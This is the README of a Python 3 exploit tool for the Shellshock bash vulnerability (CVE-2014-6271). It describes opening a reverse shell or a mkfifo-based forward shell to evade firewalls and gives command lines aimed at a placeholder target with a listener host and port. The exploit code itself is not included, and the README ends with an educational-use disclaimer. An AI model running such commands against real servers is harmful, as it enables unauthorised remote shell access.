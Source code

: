 # Project Title

CVE-2014-6271 Shellshock

## Description

A python3 script for the CVE-2014-6271 Shellshock exploit that creates a reverse shell or a pseudo interactive shell using mkfifo for firewall evasion

## Getting Started

### Executing program

* With python3
```
python3 shellshock.py -t http://exploitshellshock.blah -lhost 127.0.0.1 -lport 9001
```
* For forward shell firewall evasion
```
python3 shellshock.py -t http://exploitshellshock.blah -fs
```

## Help

For help menu:
```
python3 shellshock.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.